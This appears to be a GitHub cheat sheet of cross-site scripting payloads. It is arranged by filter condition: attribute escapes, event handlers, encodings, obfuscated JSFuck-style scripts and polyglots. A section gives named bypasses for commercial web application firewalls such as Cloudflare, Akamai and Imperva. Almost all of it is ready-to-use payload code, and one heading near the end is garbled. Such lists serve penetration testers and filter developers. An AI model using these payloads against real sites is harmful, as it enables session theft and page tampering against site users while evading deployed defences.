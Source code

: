 ### 1.If you cannot escape from the attribute (" is being encoded or deleted)

Try to use this payloads :
```js
1) <a href="javascript:alert(1)">Click</a>

2) <a href="&#01;javascript:alert(1)">Click</a>

3) <a href="javascript:{ alert`0` }">Click</a>

4) <a src="google.com" onclick="alert(1)">Click</a>

```
Or try to replace " with \u0022, > with \u003e and < with \u003c. So the payload will be:
```js
4) \u0022\u003e\u003cimg src=x onerror=alert(1)\u003e\u003cx y=\u0022
```

### 2.If you can escape from the attribute but not from the tag (> is encoded or deleted)

Try to event handlers :
```js
1) <input   value"XXXXXXX"   onclick=alert(1)  >Click</input>

2) <input  type:"text" value="XSS"  accesskey="x" onclick="alert(1)" >

3) <img src=x  onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

4) </div><a  src="google.com"  href="javaSCRIPT&colon;alert(/xss/)">XSS</a>

5) <a  href=https://google.com onclick=alert(document.location.hash.substring(1))#{saasasasas}>Click</a>
```
or use encodes:
```js
%3cscript%3e
%253cscript%253e
&lt;script&gt;

%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
```
### 3.If alert is encoded or deleted

Try to use this payloads :
```js
1) <script>$='',_=!$+$,$$=!_+$,$_=$+{},_$=_[$++],__=_[_$$=$],_$_=++_$$+$,$$$=$_[_$$+_$_],_[$$$+=$_[$]+(_.$$+$_)[$]+$$[_$_]+_$+__+_[_$$]+$$$+_$+$_[$]+__][$$$]($$[$]+$$[_$$]+_[_$_]+__+_$+"($)")()</script>

2) <script>[[,$,_,$$,__,$_,_$,$$$,$__,,___]=[![]+[]+!![]][+[]]+[][[]]],$$_=[][$+$_],[,,,$_$,,,_$$,,,,,__$,_$_]=[...$$_+[]],$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$$$_[$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$]($+_+__+_$+$_+__$+[+!!$]+_$_)()</script>

3) <script>([,O,B,J,E,C,,]=[]+{},[T,R,U,E,F,A,L,S,,,N]=[!!O]+!O+B.E)[X=C+O+N+S+T+R+U+C+T+O+R][X](A+L+E+R+T+`(1)`)()</script>
   
4) <html>
   <body>
   <head>
   <meta charset="utf-8">   
   </head> 
   <script>
   ᐁ='',ᐃ=!ᐁ+ᐁ,ᐅ=!ᐃ+ᐁ
   ᐊ=ᐁ+{},ᐄ=ᐃ[ᐁ++],ᐆ=
   ᐃ[ᐋ=ᐁ],ᐒ=++ᐋ+ᐁ,ᐗ
   =ᐊ[ᐋ+ᐒ],ᐃ[ᐗ+=ᐊ[ᐁ]
   +(ᐃ.ᐅ+ᐊ)[ᐁ]+ᐅ[ᐒ]+ᐄ
   +ᐆ+ᐃ[ᐋ]+ᐗ+ᐄ+ᐊ[ᐁ]
   +ᐆ][ᐗ](ᐅ[ᐁ]+ᐅ[ᐋ]+ᐃ
   [ᐒ]+ᐆ+ᐄ+"`ᐁᐃ`")()
   </script>
   </html>
   </body>

5) <script>prompt(1)</script>

6) <a"/onclick=(confirm)()>Click Here!

7) <script>/&/-alert(1)</script>
<script>/&amp;/-alert(1)</script>

8) %00%00%00%00%00%00%00<script>alert(1)</script>     (1.Null bytes are output   2.There is no space character immediately before)

9) <sVg OnPointerEnter="location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`">

10) <bleh/onclick=top[/al/.source+/ert/.source]&Tab;``>click 

11) <script>alert.call(null,1)</script>   (alert.call(%20, "XSS");)

12) <script>confirm.call(null,1)</script>

13) <script>prompt.call(null,1)</script>

14) <script>alert.apply(null, [1])</script>
```

### 4.If space is encoded or deleted
```js
use tab url encode : %09
<input%09value"XXXXXXX"%09onclick=alert(1)>Click</input>
```

### 5.If () is encoded or deleted
```js
<script>alert`1`</script>
```

### 5.If <script> is encoded or deleted try other tags like:
```js
SVG, img, iframe 
```
   
### 6.Some WAF bypass:
```js
@vanshitmalhotra | Bypass AWS WAF -// 
Add "<!" (without quotes) before your payload and bypass that WAF. :)
eg: <!<script>confirm(1)</script>

@black0x00mamba | Bypass WAF Akamaighost & filtered onload, onclick, href, src, onerror, script, etc 
<img  sr%00c=x o%00nerror=((pro%00mpt(1)))>

DotDefender WAF bypass by @0xInfection 
<bleh/ondragstart=&Tab;parent&Tab;['open']&Tab;&lpar;&rpar;%20draggable=True>dragme

@LooseSecurity | Updated CloudFlare bypass (bypasses virtually all WAF you'll encounter in the wild):
<iframe/src='%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A:prompt`1`'>
Javascript URI cushioned between carriage returns with a non-bracketed prompt.

@daveysec | Was able to bypass Imperva Incapsula WAF with:
<svg onload\r\n=$.globalEval("al"+"ert()");>

@rodolfoassis | Wordfence 7.4.2
<a href=&#01javascript:alert(1)>

rodolfoassis | Sucuri CloudProxy (POST only)
<a href=javascript&colon;confirm(1)>

rodolfoassis | ModSecurity CRS 3.2.0 PL1
<a href="jav%0Dascript&colon;alert(1)">
``` 

### 7.Some good stuffs:
```js
https://github.com/Walidhossain010/WAF-bypass-xss-payloads
https://aswingovind.medium.com/content-spoofing-yes-html-injection-39611d9a4057
```

### 7.XSS PolyglotsPolice: revolving allow you to test multiple XSS scenarios with ONE payload.  Work smarter not harder:
![xss](https://user-images.githubusercontent.com/63053441/148800150-58f87374-41ad-4ea8-8887-510c652c7452.jpg)
```js
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```


